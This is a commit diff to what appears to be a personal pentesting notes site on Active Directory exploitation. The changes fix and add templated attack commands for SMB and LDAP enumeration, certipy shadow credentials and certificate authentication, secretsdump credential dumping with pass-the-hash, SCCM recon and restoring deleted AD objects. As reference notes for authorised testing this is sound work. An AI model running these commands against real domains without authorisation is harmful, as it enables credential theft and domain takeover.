

Before and after one commit to KhaelK138/KhaelK138.github.io, a Jekyll site: the page built from markdown/ADExploitation.md, in a window 1280 px wide and 1400 px high, scrolled down 7846 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 8991 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
updated notes

```diff
--- a/markdown/ADExploitation.md
+++ b/markdown/ADExploitation.md
@@ -41,7 +41,7 @@
 
 **SMB**
 - Indicated by ports 139, 445
-- `nxc smb {IP} -u '{domain}/{username}' -p {password}`
+- `nxc smb {IP} -u '{domain}\{username}' -p {password}`
   - Some useful flags:
     - `--shares` for share enumeration, `--rid-brute 3000` or `--users` for user enum, `--pass-pol` for password policy
     - `-M` for modules, like exploits and such
@@ -59,7 +59,7 @@
 - Indicated by ports 389, 636
 - Checking for anonymous LDAP bind
 	- `ldapsearch -x -H ldap://{IP} -b "dc={domain},dc={TLD}"`
-	- With credentials: `ldapsearch -D '{user}@{user_domain}' -w '{user_password}' -p 389 -h {IP} -b "dc={target_domain},dc={tld}"`
+	- With credentials: `ldapsearch -D '{user}@{user_domain}' -w '{user_password}' -H ldap://{IP} -b "dc={target_domain},dc={tld}"`
 	- This can yield a ton of information, such as users on the system
 		- `ldapsearch -x -H ldap://{IP} -b "dc={domain},dc={tld}" "(objectClass=person)"`
     		- [More Hacktricks info](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap)
@@ -101,6 +101,7 @@
     - `Invoke-BloodHound -CollectionMethod All -OutputDirectory {dir} -OutputPrefix {filename_prefix}`
 - Look at misc notes for getting the file off of the system
 - Can also be run from kali
+  - It's always better to run from a shell on the machine if possible, but from Kali works if we only have LDAP to work off of
   - Newest version for BloodHound CE:
     - `apt install bloodhound` - installs latest BloodHound CE GUI
       - run GUI with `bloodhound`
@@ -310,13 +311,15 @@
   - Get shadow credentials for a user: `certipy shadow -u "{user}@{domain}" -p {password} -dc-ip {dc_ip} -account '{target_user}' auto`
   - Request a TGT for a user: `certipy req -k -dc-ip {dc_ip} -target '{DC_fqdn}' -ca '{CA_name_from_certipy}' -template 'User'`
   - Auth with pfx (TGT): `certipy auth -pfx '{pfx_file}' -dc-ip '{dc_ip}' -domain '{domain}'`
+    - If this fails due to "Certificate is not valid for client authentication", we can use `-ldap-shell` for an LDAP shell instead
+      - This will occur due to some templates not including `Client Authentication` in its EKUs (Extended Key Usage), such as a Webserver template
 
 
 
 ## SCCM
 **Recon**
 - `sccmhunter.py find -u {username} -p {password} -d {domain} -dc-ip {dc_ip} -debug`
-  - Also worth running `nxc smb` on the sccm server: `mxc smb {sccm_ip} -u {username} -p {password} -d {domain} --shares
+  - Also worth running `nxc smb` on the sccm server: `nxc smb {sccm_ip} -u {username} -p {password} -d {domain} --shares`
 - `pxethief.py 2 {sccm_ip}` can also yield results
 
 **Exploitation**
@@ -345,3 +348,10 @@
   - Can also be performed with `impacket-secretsdump` on kali
   	- `impacket-secretsdump -just-dc-user {target_domain_user} {domain}/{admin_username}:"{password}"@{DC_IP}`
   	- `impacket-secretsdump -hashes :{NTLM_hash} {domain}/{user}@{DC_IP}`
+- **Finding Deleted Objects**
+  - Sometimes there can be interesting AD objects that have been deleted which we can use
+  - `Get-ADObject -Filter 'isDeleted -eq $true' -IncludeDeletedObjects` to list deleted objects
+    - This will list objects deleted in chronological order, so we can restore the same deleted objects multiple times
+    - If we've imported PowerView, this will fail due to having a different `Get-ADObject`
+  - We can then restore the object with `Restore-ADObject -Identity "{object_GUID}"`
+    - We can undo this with `Remove-ADObject -Identity "{object_GUID}" -Recursive -Confirm:$false`
```
Also changed, not shown: markdown/ADPivoting.md (+2 -0 lines), markdown/LinuxPrivilegeEscalation.md (+5 -0 lines), markdown/PasswordAttacks.md (+1 -0 lines).
